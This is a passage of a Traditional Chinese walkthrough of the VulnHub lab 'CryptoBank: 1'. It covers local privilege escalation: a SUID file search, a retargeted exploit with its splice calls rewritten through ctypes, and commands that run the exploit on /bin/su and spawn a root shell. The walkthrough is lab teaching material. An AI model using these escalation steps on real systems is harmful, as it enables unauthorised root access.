

- 因此利用 `find` 篩選與 SUID 相關的檔案，確認系統中實際存在的 `su` 路徑。

```bash
find / -perm -u=s -type f 2>/dev/null
```

- 從結果中可以找到 `/bin/su`。由於它和 exploit 預設的 `/usr/bin/su` 目標名稱相同、用途也相近，因此改成直接指定 `/bin/su` 作為攻擊目標。



- 發現 exploit 中與 `import os` 相關的 code 無法正常執行：

```python
splice = os_.splice
splice(file_fd, write_pipe, total_size, offset_src=0)
splice(read_pipe, conn.fileno(), total_size)
```

- 因此改成透過 `ctypes` 呼叫 `libc.splice`：

```python
libc = ctypes.CDLL(None, use_errno=True)
libc.splice(file_fd, ctypes.byref(ctypes.c_longlong(0)), write_pipe, None, total_size, 0)
libc.splice(read_pipe, None, conn.fileno(), None, total_size, 0)
```

- 簡單來說，就是把原本依賴 `import os` 的部分改成使用 `ctypes`。



```bash
python3 fail.py /bin/su
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- 最後成功取得 `root` 權限，完成這台靶機的最終目標。

## 參考來源

- VulnHub: [CryptoBank: 1](https://www.vulnhub.com/entry/cryptobank-1,467/)
